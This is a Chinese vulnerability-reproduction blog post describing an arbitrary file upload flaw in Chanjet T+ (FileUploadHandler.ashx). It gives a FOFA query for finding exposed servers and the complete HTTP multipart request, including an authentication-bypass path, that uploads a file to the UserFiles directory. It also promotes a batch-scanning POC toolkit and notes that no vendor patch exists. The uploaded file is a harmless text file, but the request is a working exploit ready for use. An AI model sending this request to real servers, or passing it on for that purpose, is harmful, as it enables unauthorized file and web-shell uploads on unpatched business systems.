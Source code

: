 #  畅捷通TPlus FileUploadHandler.ashx存在任意文件上传漏洞 附POC   
2024-10-19更新  南风漏洞复现文库   2024-10-19 22:41  
  
免责声明：  
请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。  
该文章仅供学习用途使用。  
## 1. 畅捷通TPlus 简介  
  
微信公众号搜索：南风漏洞复现文库 该文章 南风漏洞复现文库 公众号首发  
  
畅捷通T+专属云适用于需要一体化管理的企业，财务管理、业务管理、零售管理、生产管理、物流管理、移动仓管、营销管理、委外加工等人财货客一体化管理。  
## 2.漏洞描述  
  
畅捷通T+专属云适用于需要一体化管理的企业，财务管理、业务管理、零售管理、生产管理、物流管理、移动仓管、营销管理、委外加工等人财货客一体化管理。畅捷通TPlus FileUploadHandler.ashx存在任意文件上传漏洞。  
  
CVE编号:  
  
CNNVD编号:  
  
CNVD编号:  
## 3.影响版本  
  
畅捷通T+  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/HsJDm7fvc3a7bRr2Rf7icTGhcI0xdhHcHoTyce57ZLp7FqVSgJyZ1bZOFKJBkdWl5SgJ28d9hS07JSNuC2xpS1A/640?wx_fmt=png&from=appmsg "null")  
  
畅捷通TPlus FileUploadHandler.ashx存在任意文件上传漏洞  
## 4.fofa查询语句  
  
app="畅捷通-TPlus"  
## 5.漏洞复现  
  
漏洞链接：https://xx.xx.xx.xx/tplus/SM/SetupAccount/FileUploadHandler.ashx/;/login  
  
漏洞数据包：  
```
POST /tplus/SM/SetupAccount/FileUploadHandler.ashx/;/login HTTP/1.1
Host: xx.xx.xx.xx
User-Agent:Mozilla/4.0(compatible; MSIE 8.0;Windows NT 6.1)
Accept-Encoding: gzip, deflate
Accept:*/*
Connection: close
Content-Length: 185
Content-Type: multipart/form-data; boundary=f2d64c4e8d84d6f13811577027e9b102

--f2d64c4e8d84d6f13811577027e9b102
Content-Disposition: form-data; name="file"; filename="135325.txt"
Content-Type:  image/jpeg

881455812769
--f2d64c4e8d84d6f13811577027e9b102--

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3a7bRr2Rf7icTGhcI0xdhHcHvrlmdpllCp3gDDOiaQRAcRkgqCNlfdHmGrB3OiazXOAbMYMoMNB97SsQ/640?wx_fmt=jpeg&from=appmsg "null")  
  
上传的文件路径：https://xx.xx.xx.xx/tplus/UserFiles/135325.txt  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3a7bRr2Rf7icTGhcI0xdhHcHkuCGhicHXL2NjUqIjXqaiaom1aJdoOn9vjudn1qibPeeiaib08Ucg2icV2FA/640?wx_fmt=jpeg&from=appmsg "null")  
## 6.POC&EXP  
  
本期漏洞及往期漏洞的批量扫描POC及POC工具箱已经上传知识星球：南风网络安全1: 更新poc批量扫描软件，承诺，一周更新8-14个插件吧，我会优先写使用量比较大程序漏洞。2: 免登录，免费fofa查询。3: 更新其他实用网络安全工具项目。4: 免费指纹识别，持续更新指纹库。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3a7bRr2Rf7icTGhcI0xdhHcHiar7LwabqVGF1jOfgSKCWOBIPuNxLVdCoFzQtbHqbSRgVia5oiaqU25nQ/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/HsJDm7fvc3a7bRr2Rf7icTGhcI0xdhHcHHW28IQmhdSeReeHS1MJZ0DfzFo6FTvOpL8nM6mXkqg5Slr9iatjibiafw/640?wx_fmt=png&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3a7bRr2Rf7icTGhcI0xdhHcHc99bcYAt4PfmRuSqgEBsiaTYrQu2InxSaFunvibMb7rw24W0DjSTKUOA/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3a7bRr2Rf7icTGhcI0xdhHcHfGbLjfgPXAdUNtyKUhBamnleZBNodxA2APulN0Eo6XeERLkuJpMrVQ/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3a7bRr2Rf7icTGhcI0xdhHcHAYoyTttyXmZjZ7pOIIopNlYo4dGSm66BRNKXhFJMXOKWPtY9LbPBfw/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3a7bRr2Rf7icTGhcI0xdhHcHotiaanF2pboDZUCUJeicUMVKjw0UuAnJt53b3sb62sbZ7RIQ40r4H2rw/640?wx_fmt=jpeg&from=appmsg "null")  
## 7.整改意见  
  
目前厂商尚未提供相关漏洞补丁链接，请关注厂商主页及时更新：https://www.chanjet.com/  
## 8.往期回顾  
  
  
[Qualitor系统接口processVariavel.php存在命令执行漏洞CVE-2023-47253 附POC](http://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247487574&idx=1&sn=0404a326308057b619f5a82aeb27ca45&chksm=974b9d51a03c144727c610bf847404829c26d5eb28f1a9a403927c9dcae7de7497e370701cee&scene=21#wechat_redirect)  
  
  
